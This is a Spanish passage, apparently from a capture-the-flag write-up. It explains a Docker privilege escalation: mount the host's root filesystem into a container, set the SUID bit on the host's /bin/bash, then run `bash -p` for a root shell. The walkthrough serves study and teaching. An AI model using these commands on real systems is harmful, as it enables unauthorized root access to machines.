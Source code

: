 >Explicación:

* `docker run -dit v /:/mnt/root 2ca708c1c9cc`: Montamos la raíz del sistema en el contenedor, más específicamente en `/mnt/root`, usando la imagen previamente creada, y corremos el contenedor en segundo plano.
* `docker exec -it 7e66300b7e8eee888e7d1d7e7d5562f889dfa5042e026e57163b50aaa1643c7 bash`: Ejecutamos bash en el contenedor creado.
* `chmod u+s /mnt/root/bin/bash`: Cambiamos el binario /bin/bash a SUID. Esto no solo cambia el binario en el contenedor, sino que también lo cambia en la máquina host por la montura que habiamos hecho previamente.

>Salimos del contenedor con `exit` y hacemos un `bash -p`. Tendremos una consola como root en la máquina Host! Listo, hemos vulnerado la máquina y escalado privilegios.
